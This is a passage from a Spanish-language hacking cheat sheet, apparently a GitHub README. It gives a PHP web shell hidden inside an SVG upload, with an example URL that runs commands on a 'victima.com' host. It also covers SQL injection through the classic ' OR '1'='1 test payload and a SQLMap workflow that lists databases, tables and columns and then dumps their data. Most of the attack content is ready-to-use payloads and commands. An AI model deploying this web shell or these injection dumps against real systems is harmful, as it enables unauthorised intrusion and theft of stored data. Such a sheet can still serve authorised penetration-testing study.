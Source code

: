   🖥 Ejecutar comandos dentro de `.SVG`
  ```xml
  AAAA
  <?php echo system($_GET["cmd"]);?>
  ```
  Para insertar comandos en URL, usar `%20` como espacio:
  ```bash
  http://victima.com/shell.php?cmd=id
  ```

## 🛠️ SQL INJECTION

### 📌 Estructura de una Base de Datos

📂 **BASE DE DATOS** → 📁 **TABLAS** → 📄 **COLUMNAS** → 📌 **CAMPOS** → 🔢 **VALOR**

---

### 🕵️‍♂️ **Detección de Vulnerabilidad**

Para probar si un campo es vulnerable, intenta ingresar:
```sql
' OR '1'='1
```
Si devuelve información inesperada, es probable que sea vulnerable. 🔥

---

### 🛡️ **Explotación con SQLMap**

1️⃣ **Abrir BurpSuite**, configurar y hacer una consulta a la web.  
2️⃣ **Guardar la consulta** en un archivo:
   ```bash
   consulta.req
   ```
3️⃣ **Ejecutar SQLMap** para detectar bases de datos:
   ```bash
   sqlmap -r consulta.req -p id --batch --dbs
   ```
4️⃣ **Profundizar en la información:**
   - Listar bases de datos:
     ```bash
     sqlmap -r consulta.req -p id --dbs
     ```
   - Listar tablas dentro de una base de datos:
     ```bash
     sqlmap -r consulta.req -p id -D <base_de_datos> --tables
     ```
   - Listar columnas dentro de una tabla:
     ```bash
     sqlmap -r consulta.req -p id -D <base_de_datos> -T <tabla> --columns
     ```
   - Extraer datos de columnas específicas:
     ```bash
     sqlmap -r consulta.req -p id -D <base_de_datos> -T <tabla> -C <columna1,columna2> --dump
     ```
